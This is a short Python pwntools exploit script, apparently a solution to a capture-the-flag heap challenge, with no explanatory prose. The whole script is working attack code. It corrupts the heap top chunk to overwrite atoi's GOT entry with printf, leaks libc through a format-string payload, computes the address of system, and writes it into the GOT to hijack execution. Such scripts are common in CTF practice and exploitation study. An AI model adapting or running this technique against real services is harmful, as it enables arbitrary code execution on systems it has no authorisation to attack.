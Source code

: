 ```python
s.recvuntil("Host:\n")

s.sendline("\xff\xff\xff\xff")

s.recvuntil(">>\n")

size = atoi_got - top_chunk -  8  -  4

s.sendline("1")

s.recvuntil(":\n")

s.sendline(str(size))

s.recvuntil(">>\n")

s.sendline("1")

s.recvline(":\n")

s.sendline("8")

s.recvline(":\n")

s.sendline("AAAA"+p32(printf_plt))

s.recvuntil(">>\n")

s.sendline("1")

s.recvline(":\n")

payload = p32(printf_got)+"k"+"%6$s"

s.sendline(payload)

s.recvuntil("k")

leak_printf=u32(s.recv()[:4])

log.success(hex(leak_printf))

base = leak_printf - libc.symbols['printf']

log.success(hex(base))

system = base + libc.symbols['system']

log.success(hex(system))

s.sendline("AAA")

s.recv()

s.sendline("333")

s.recv()

s.sendline("1")

s.recv()

s.sendline("AAAA"+p32(system))
```